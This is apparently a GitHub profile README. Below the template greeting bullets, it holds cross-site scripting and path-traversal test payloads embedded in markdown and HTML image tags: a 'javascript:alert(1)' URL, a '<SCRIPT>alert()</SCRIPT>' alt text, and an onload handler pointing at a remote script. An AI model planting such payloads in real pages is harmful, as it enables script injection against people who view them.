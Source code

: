- 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![

<img onload="../../../../../../../\r89shi.github.io/teste.js" alt="<SCRIPT>alert()</SCRIPT>">
<img src='../../../../../../../r89shi/gitbook.fluig.snippets/blob/main/README.md' >

](()

